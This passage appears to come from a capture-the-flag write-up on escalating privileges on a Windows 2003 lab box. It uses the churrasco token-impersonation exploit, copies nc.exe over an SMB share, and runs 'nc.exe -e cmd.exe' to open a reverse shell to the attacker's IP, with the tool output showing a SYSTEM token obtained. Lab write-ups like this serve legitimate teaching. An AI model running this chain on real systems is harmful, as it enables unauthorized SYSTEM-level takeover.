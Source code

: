 

`SEImpersonalPrivilege` is one I know to look out for. For modern boxes,
that means a potato exploit (juicy, lonely, rotten). But for 2003, it's
better to start with churrasco.

### churrasco

I grabbed the binary from the [Churrasco
GitHub](https://github.com/Re4son/Churrasco/). I ran
`smbserver.py share .` on my local machine to open an SMB share named
share with both `nc.exe` and `churrasco.exe` in that directory:



    C:\wmpub>copy \\10.10.14.47\share\nc.exe .
            1 file(s) copied.

    C:\wmpub>copy \\10.10.14.47\share\churrasco.exe c.exe
            1 file(s) copied.

    C:\wmpub>dir
     Volume in drive C has no label.
     Volume Serial Number is 246C-D7FE

     Directory of C:\wmpub

    05/28/2020  02:50 PM    <DIR>          .
    05/28/2020  02:50 PM    <DIR>          ..
    05/28/2020  02:38 PM            31,232 c.exe
    05/28/2020  04:35 AM            38,616 nc.exe
    05/28/2020  02:46 PM                 7 test.txt
    04/12/2017  05:05 PM    <DIR>          wmiislog
                   3 File(s)         69,855 bytes
                   3 Dir(s)  18,092,220,416 bytes free



Now run it, having it run `nc` to connect back to me:



    C:\wmpub>.\c.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.14.47 443"
    /churrasco/-->Current User: NETWORK SERVICE 
    /churrasco/-->Getting Rpcss PID ...
    /churrasco/-->Found Rpcss PID: 684 
    /churrasco/-->Searching for Rpcss threads ...
    /churrasco/-->Found Thread: 688 
    /churrasco/-->Thread not impersonating, looking for another thread...
    /churrasco/-->Found Thread: 692 
    /churrasco/-->Thread not impersonating, looking for another thread...
    /churrasco/-->Found Thread: 700 
    /churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x72c
    /churrasco/-->Getting SYSTEM token from Rpcss Service...
    /churrasco/-->Found NETWORK SERVICE Token
    /churrasco/-->Found NETWORK SERVICE Token
    /churrasco/-->Found LOCAL SERVICE Token
    /churrasco/-->Found SYSTEM token 0x724
    /churrasco/-->Running command with SYSTEM Token...
    /churrasco/-->Done, command should have ran as SYSTEM!
